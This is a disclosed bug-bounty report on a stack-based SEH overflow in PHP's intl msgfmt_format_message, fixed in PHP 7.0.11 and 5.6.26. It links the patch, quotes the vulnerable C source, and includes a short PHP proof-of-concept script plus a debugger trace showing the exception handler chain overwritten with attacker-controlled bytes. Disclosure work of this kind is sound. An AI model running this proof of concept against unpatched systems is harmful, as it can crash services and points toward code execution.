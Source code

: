 # SEH buffer overflow msgfmt_format_message

## Report Details
- **Report ID**: 170138
- **URL**: https://hackerone.com/reports/170138
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-09-17T23:22:50.652Z
- **Disclosed**: 2019-10-13T18:10:00.008Z

## Reporter
- **Username**: fms
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Upstream bug
---------------
https://bugs.php.net/bug.php?id=73007

Fixed in PHP 7.0.11 and PHP 5.6.26
---------------
http://php.net/ChangeLog-5.php#5.6.26
http://php.net/ChangeLog-7.php#7.0.11

Patch
-------
```
http://git.php.net/?p=php-src.git;a=commit;h=20fa323d53257a776bd7551ce7bdb2261cfe5420
```

Description:
------------
Big locale string causes stack based overflow inside libicu. PHP could prevent this issue limiting length of the locale to a valid value.

Source code:
https://github.com/php/php-src/blob/PHP-7.0.10/ext/intl/msgformat/msgformat_format.c#L98

```
PHP_FUNCTION( msgfmt_format_message )
{
    zval       *args;
    UChar      *spattern = NULL;
    int         spattern_len = 0;
    char       *pattern = NULL;
    size_t      pattern_len = 0;
    const char *slocale = NULL;
    size_t      slocale_len = 0;
    MessageFormatter_object mf;
    MessageFormatter_object *mfo = &mf;

    /* Parse parameters. */
    if( zend_parse_method_parameters( ZEND_NUM_ARGS(), getThis(), "ssa",
          &slocale, &slocale_len, &pattern, &pattern_len, &args ) == FAILURE )
    {
        intl_error_set( NULL, U_ILLEGAL_ARGUMENT_ERROR,
            "msgfmt_format_message: unable to parse input params", 0 );

        RETURN_FALSE;
    }

    memset(mfo, 0, sizeof(*mfo));
    msgformat_data_init(&mfo->mf_data);

    if(pattern && pattern_len) {
        intl_convert_utf8_to_utf16(&spattern, &spattern_len, pattern, pattern_len, &INTL_DATA_ERROR_CODE(mfo));
```
Test script:
---------------
```
<?php

ini_set('memory_limit', -1);

$v1 = str_repeat("ABCE", 503566756/3);
$v2 = "test";
$v3 = [];

MessageFormatter::formatMessage($v1, $v2, $v3);
// msgfmt_format_message($v1, $v2, $v3);
```


Actual result:
--------------
```
Microsoft (R) Windows Debugger Version 6.11.0001.404 AMD64
Copyright (c) Microsoft Corporation. All rights reserved.

CommandLine: C:\tools\php7010\php.exe -n -dextension=ext\php_bz2.dll  -dextension=ext\php_com_dotnet.dll  -dextension=ext\php_curl.dll  -dextension=ext\php_enchant.dll  -dextension=ext\php_exif.dll  -dextension=ext\php_fileinfo.dll  -dextension=ext\php_ftp.dll  -dextension=ext\php_gd2.dll  -dextension=ext\php_gettext.dll  -dextension=ext\php_gmp.dll  -dextension=ext\php_imap.dll  -dextension=ext\php_intl.dll  -dextension=ext\php_ldap.dll  -dextension=ext\php_mbstring.dll  -dextension=ext\php_mysqli.dll   -dextension=ext\php_odbc.dll  -dextension=ext\php_openssl.dll   -dextension=ext\php_pdo_mysql.dll   -dextension=ext\php_pdo_odbc.dll  -dextension=ext\php_pdo_pgsql.dll  -dextension=ext\php_pdo_sqlite.dll  -dextension=ext\php_pgsql.dll  -dextension=ext\php_phpdbg_webhelper.dll  -dextension=ext\php_shmop.dll  -dextension=ext\php_soap.dll  -dextension=ext\php_sockets.dll  -dextension=ext\php_sqlite3.dll  -dextension=ext\php_sysvshm.dll  -dextension=ext\php_tidy.dll  -dextension=ext\php_xmlrpc.dll  -dextension=ext\php_xsl.dll  -dextension=ext\php_yaml.dll poc.php

...

(e5c.d80): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for C:\tools\php7010\icuuc57.dll
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\tools\php7010\icuuc57.dll - 
Processing initial command 'r;!exploitable -v'
icuuc57!icu_57::Locale::Locale+0x27c:
4a85613c 8801            mov     byte ptr [ecx],al          ds:002b:05360000=00
0:000:x86> r;!exploitable -v
eax=0535e545 ebx=00000000 ecx=05360000 edx=10201a74 esi=0535e59d edi=00000000
eip=4a85613c esp=0535e55c ebp=0535e64c iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202
icuuc57!icu_57::Locale::Locale+0x27c:
4a85613c 8801            mov     byte ptr [ecx],al          ds:002b:05360000=00

!exploitable 1.6.0.0
HostMachine\HostUser
Executing Processor Architecture is x86
Debuggee is in User Mode
Debuggee is a live user mode debugging session on the local machine
Event Type: Exception
Exception Faulting Address: 0x5360000
First Chance Exception Type: STATUS_ACCESS_VIOLATION (0xC0000005)
Exception Sub-Type: Write Access Violation

Exception Hash (Major/Minor): 0xbf0ac847.0x9fec2922

 Hash Usage : Stack Trace:
Major+Minor : icuuc57!icu_57::Locale::Locale+0x27c
Major+Minor : Unknown
Major+Minor : Unknown
Major+Minor : Unknown
Major+Minor : Unknown
Minor       : Unknown
Minor       : Unknown
Minor       : Unknown
Minor       : Unknown
Minor       : Unknown
Minor       : Unknown
Minor       : Unknown
Minor       : Unknown
...
Minor       : Unknown
Minor       : Unknown
Minor       : Unknown
Minor       : Unknown
Minor       : Unknown
Instruction Address: 0x000000004a85613c

Description: Exception Handler Chain Corrupted
Short Description: ExceptionHandlerCorrupted
Exploitability Classification: EXPLOITABLE
Recommended Bug Title: Exploitable - Exception Handler Chain Corrupted starting at icuuc57!icu_57::Locale::Locale+0x000000000000027c (Hash=0xbf0ac847.0x9fec2922)

Corruption of the exception handler chain is considered exploitable
0:000:x86> !exchain
000000000535e640: 0000000043424145
Invalid exception stack at 0000000043424145     // Exception handler overwrote to 'ABCE'
0:000:x86> k
ChildEBP RetAddr  
WARNING: Stack unwind information not available. Following frames may be wrong.
0535e64c 43424145 icuuc57!icu_57::Locale::Locale+0x27c
0535e650 43424145 0x43424145
0535e654 43424145 0x43424145
0535e658 43424145 0x43424145
0535e65c 43424145 0x43424145
0535e660 43424145 0x43424145
0535e664 43424145 0x43424145
0535e668 43424145 0x43424145
0535e66c 43424145 0x43424145
0535e670 43424145 0x43424145
0535e674 43424145 0x43424145
0535e678 43424145 0x43424145
0535e67c 43424145 0x43424145
0535e680 43424145 0x43424145
0535e684 43424145 0x43424145
0535e688 43424145 0x43424145
0535e68c 43424145 0x43424145
0535e690 43424145 0x43424145
0535e694 43424145 0x43424145
0535e698 43424145 0x43424145
```

## Attachments
No attachments
